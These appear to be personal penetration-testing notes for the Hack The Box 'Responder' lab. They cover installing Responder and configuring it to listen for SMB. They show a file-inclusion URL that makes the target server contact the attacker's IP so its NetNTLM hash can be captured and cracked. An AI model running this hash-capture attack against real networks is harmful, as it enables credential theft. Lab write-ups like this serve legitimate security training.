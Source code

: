```
sudo apt install responder
```

```
git pull https://github.com/lgandx/Responder
```

### Exploit [[NTLM]]
- [HTB writeup](blob:https://app.hackthebox.com/e9cd6721-9743-4a7f-afd2-f00e33eb8e50)
- Check Responder.conf is set to listen for SMB requests
	- responder.conf (In `/etc/responder` using linux tool not python)

- May need to turn off HTTP server in .conf if being used by another service
- Start responder
	- Choose interface to use:
```
-I tun0
sudo responder -I {network_interface}
```
- Should prompt listening for events
- Get website to make request to SMB hosted server (our IP)
	- e.g `http://unika.htb/?page=//10.10.14.25/somefile`
	- Should get error on webpage
	- Responder should display NetNTLMv for the Administrator or displayed user
- Dump the hash and try to crack


### Other Stuff
- Choose IP:
```
-i 192.168.1.202
```
